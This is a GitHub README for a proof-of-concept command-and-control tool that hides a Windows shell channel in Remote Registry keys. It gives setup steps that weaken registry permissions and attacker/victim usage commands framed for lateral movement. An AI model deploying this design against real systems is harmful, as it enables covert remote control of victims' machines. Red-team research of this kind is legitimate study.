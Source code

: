 # Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my lab. They are made to test if the shells actually work and nothing else. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client (beacon) and server (C2) will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

### Demo:
[![Demo](https://img.youtube.com/vi/jOPCbK-WF1M/0.jpg)](https://www.youtube.com/watch?v=jOPCbK-WF1M)

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to read & write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only really be suitable for lateral movement on local networks, however I have not tested it over the internet. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. Think of this used defined registry key as the port (LHOST).
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will connect to the C2 server using WinReg, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When it is time to check-in, the client executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's registry keys "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic
